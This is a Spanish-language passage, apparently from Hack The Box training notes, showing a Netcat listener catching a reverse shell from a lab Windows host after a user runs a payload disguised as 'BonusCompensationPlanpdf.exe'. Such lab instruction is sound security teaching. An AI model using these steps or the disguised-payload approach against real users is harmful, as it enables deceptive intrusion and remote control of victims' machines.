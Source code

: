 <figure><img src="../../../.gitbook/assets/winpayload.webp" alt=""><figcaption></figcaption></figure>

Si el antivirus estuviera deshabilitado, todo lo que el usuario tendría que hacer es hacer doble clic en el archivo para ejecutarlo, y entonces tendríamos una sesión **shell**.

#### Conexión usando Netcat

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
```

Al ejecutar el archivo, capturamos una **shell** inversa desde el sistema Windows:

```bash
Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```
